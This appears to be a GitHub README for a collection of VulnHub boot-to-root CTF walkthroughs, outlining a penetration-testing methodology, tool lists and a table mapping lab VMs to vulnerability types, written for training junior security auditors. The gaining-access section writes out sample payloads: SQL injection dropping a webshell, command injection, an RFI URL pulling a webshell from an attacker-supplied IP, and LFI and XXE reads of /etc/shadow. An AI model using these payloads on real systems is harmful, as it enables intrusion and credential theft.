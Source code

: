 # Boot to root CTFs

Walkthroughs and notes of 'boot to root' CTFs mostly from VulnHub that I did for fun. I like to use vulnerable VMs from VulnHub (in addition to the ones I create) to organize hands-on penetration testing training sessions for junior security auditors/consultants :-)


### >> Classic pentest methodology to do a Boot2root CTF <<

### Step 1 - Scanning and enumeration
```
   ➤ Network TCP/UDP port scans
   ➤ Service enumeration (HTTP,FTP,TFTP,SMB,NFS,SAMBA,SNMP,SMTP,..)
   ➤ User enumeration
   ➤ Vulnerability scans
   ➤ ...
```
##### ***Useful tools:*** [Nmap](https://nmap.org/) (network port scanner and (NSE) scripts), [Burp proxy](https://portswigger.net/burp) (manual & automated Web security testing tool), [Nikto](https://www.kali.org/tools/nikto/) (Web vulnerability scanner), [Dirb](https://www.kali.org/tools/dirb/) & [Gobuster](https://github.com/OJ/gobuster)  (URL bruteforcers), [Kali various tools](https://www.kali.org/tools/), various scripts (source:Github/your owns).*
-------------------

### Step 2 - Gaining access
```
1. Exploiting security misconfiguration
   ➤ Anonymous access (e.g. FTP/TFTP/NFS/SMB, unprotected web admin console)
   ➤ Default and weak credentials (e.g. Web server, CMS, database, OS)
   ➤ Web server misconfiguration (e.g. Webdav + HTTP PUT method allowed > upload a Webshell)
   ➤ Clear-text passwords stored in 'public' website pages, configuration files, log files
   ➤ ...
   
2. Exploiting unpatched known vulnerabilities 
   ➤ Web server            (e.g. Apache Struts RCE: CVE-2017-12611/CVE-2017-9805/CVE-2017-9791, JBoss Java Deserialization RCE)
   ➤ Bash & web server CGI (e.g. Shellshock RCE CVE-2014-6271/CVE-2014-7169)
   ➤ Web CMS               (e.g. Drupalgeddon2 RCE CVE-2018-7600)
   ➤ Web framework         (e.g. PHP CGI RCE CVE-2012-1823)
   ➤ FTP server            (e.g. ProFTPd 1.3.5 RCE CVE-2015-3306)
   ➤ Samba server          (e.g. SambaCry RCE CVE-2017-7494)
   ➤ Windows OS            (e.g. PrintNightmare/CVE-2021-1675, EternalBlue/MS17-010/CVE-2017-0143, MS14-068/CVE-2014-6324, MS08-067/CVE-2008-4250)
   ➤ ...
   
3. Exploiting Web application vulnerabilities
   ➤ SQLi - SQL injection                 (e.g. MysQL DB: SELECT webshell INTO DUMPFILE '/path/to/webshell.php'; MSSQL DB: exec master..xp_cmdshell 'windows command')
   ➤ Insecure upload function             (i.e. PHP/ASP/ASPX/JSP Webshell upload)
   ➤ OS command injection                 (e.g. https://target.com//stockStatus?ID=29|whoami)
   ➤ RFI - Remote File Include            (e.g. https://target.com/page?url=http://yourIP/webshell.php)
   ➤ LFI - Local File Include             (e.g. https://target.com/page?file=/../../../../etc/shadow)
   ➤ SSRF - Server Side Request Forgery   (e.g. https://target.com/page?url=http://127.0.0.1/phpmyadmin)
   ➤ XXE - XML external entity injection  (e.g. <!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>]>)
   ➤ ...
```
##### ***Useful tools:*** various scripts, webshells, and reverse shells (source:Github/your owns), [Kali various tools](https://www.kali.org/tools/), [ExploitDB](https://www.exploit-db.com) & [searchsploit](https://www.exploit-db.com/searchsploit) (public exploit database), [Burp proxy](https://portswigger.net/burp) (manual & automated Web security testing), [Sqlmap](https://github.com/sqlmapproject/sqlmap) (automatic SQL injection & DB takeover tool), [kadimus](https://github.com/P0cL4bs/kadimus) (LFI exploit tool), [Metasploit framework](https://www.metasploit.com/) (penetration testing framework), [Impacket framework](https://github.com/SecureAuthCorp/impacket) & [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) (Windows environment pentesting tools), [Hydra](https://www.kali.org/tools/hydra/) / [thc-hydra](https://github.com/vanhauser-thc/thc-hydra) / [ncrack](https://nmap.org/ncrack/) (password bruteforce tools),  [DBvis/DbVisualizer](https://www.dbvis.com/download/) (universal database tool).
-------------------------------

### Step 3 - Post-exploitation and Privilege escalation to become "root" or "Local System"
```
1. Exploiting security misconfiguration
   ➤ Windows OS (e.g. weak service permissions, weak file permissions, weak registry permissions, weak passwords, password reuse, clear-text passwords stored in scripts, unattended install files, AlwaysInstallElevated trick..)
   ➤ Linux OS   (e.g. SUDO misconfiguration, SUID misconfiguration, CRON misconfiguration, weak file permissions, weak passwords, password reuse, clear-text passwords in scripts and .bash_history..)
   
2. Exploiting unpatched known vulnerabilities 
   ➤ Linux local exploit   (e.g. DirtyPipe CVE-2022-0847, Dirtyc0w CVE-2016-5195, eBPF exploit CVE-2017-16995, Overlayfs exploit CVE-2015-1328)
   ➤ Windows local exploit (e.g. HOT/ROTTEN/JUICY POTATO exploits, MS16-032 Secondary Logon Handle Privesc)
   ➤ Exploit for any vulnerable service/software running with "Local System" or local administrator privilege
```
##### ***Useful tools:*** various scripts such as [LinEnum](https://github.com/rebootuser/LinEnum) (Linux enumeration scripts), [LinPEAS & WinPEAS](https://github.com/carlospolop/PEASS-ng) (Linux & Windows enumeration scripts), [Linux Exploit suggester](https://github.com/mzet-/linux-exploit-suggester) / [Linux Exploit suggester 2](https://github.com/jondonas/linux-exploit-suggester-2) (scripts to assess Linux kernel security hardening and exposure on publicly known exploits), [PowerUp PowerShell script](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) & [SharpUP](https://github.com/GhostPack/SharpUp) (Windows privilege escalation tools), [ExploitDB](https://www.exploit-db.com) & [searchsploit](https://www.exploit-db.com/searchsploit) (public exploit database), [Metasploit framework](https://www.metasploit.com/) (penetration testing framework), ...
------------------------------

### Step 4 - Pivoting techniques to attack a second VM (or docker containers) only reachable from the 1rst one (some CTFs have several VMs/docker containers :-))
```
1. Pivoting with SSH tunneling (e.g. dynamic port forward / socks5 proxy / use of proxychain)
2. Pivoting with Metasploit/Meterpreter (e.g. post/multi/manage/autoroute + socks5 proxy + use of proxychain; "portfwd add" rules)
3. Pivoting with RPIVOT (reverse socks4 proxy, it works like ssh dynamic port forwarding but in the opposite direction)
4. Pivoting with TCP tunnelling over HTTP via Webshells (e.g. Tunna webshell, reGeorg and neo-reGeorg client/webshell)
5. Pivoting with SOCAT / Ligolo / RDP / VNC / ...
6. ...
```
##### ***Useful tools:*** [Metasploit framework](https://www.metasploit.com/) (penetration testing framework), [Rpivot](https://github.com/klsecservices/rpivot) / [SOCAT](http://www.dest-unreach.org/socat/) / [Ligolo](https://github.com/sysdream/ligolo) (reverse socks proxies for penetration tests), [Tunna](https://github.com/SECFORCE/Tunna) / [ReGeorg](https://github.com/kost/regeorg) / [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) (pivoting with TCP tunnelling over HTTP via Webshells), ...
---------------------------------

### Other - Mapping between a few boot2root VulnHub CTFs and common vulnerabilities/exploits

| Boot2root CTF | Anonymous access or Weak password | Insecure file upload function | Webshell | SQLi | LFI | RFI | XXE | OS cmd injection | XSS | Unpatched RCE flaw | Info / Note | 
| :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: |
| *Credit Card Scammers* | - | - | X | X | - | - | - | - | X | - | - |
| *Billu-b0x2* | - | - |- | - | - | - | - | - | - | X | Drupal CMS |
| *Bobby* | X | - | X | - | - | - | - | - | - | - | - |
| *CloudAV* | - | - | - | - | - | - | - | X | - | - | - |
| *DC:8* | - | - | X | X | - | - | - | - | - | - | Drupal CMS |
| *Vulnerable Docker:1* | X | - | X | - | - | - | - | - | - | - | WordPress CMS & Pivoting technique |
| *Freshly* | - | - | X | X | - | - | - | - | - | - | - |
| *Fristileaks.1.3* | - | X | X | - | - | - | - | - | - | - | - |
| *HackLab Vulnix* | X | - | - | - | - | - | - | - | - | - | - |
| *MinU:v2* | - | - | - | - | - | - | X | - | - | - |
| *Mr Robot* | X | - | X | - | - | - | - | - | - | - | WordPress CMS |
| *SafeHarbor:1* | - | - | - | X | X | X | - | - | - | X | Pivoting technique |
| *Scream* | X | - | X | - | - | - | - | - | - | X | - |
| *SickOS.1.1* | X | - | X | - | - | - | - | - | - | X | Pivoting technique |
| *SickOS.1.2* | - | - | X | - | - | - | - | - | - | - | - |
| *Stapler* | X | - | X | - | X | - | - | - | - | - | - |
| *Tr0ll1* | X | - | - | - | - | - | - | - | - | - | - |
| *Typhoon* | X | - | X | - | - | - | - | - | - | - | X | - | 
| *VulnOSv2* | - | - | - | X | - | - | - | - | - | X | Drupal CMS |
| *WinterMute* | X | - | X | - | X | - | - | - | - | X | Pivoting technique |
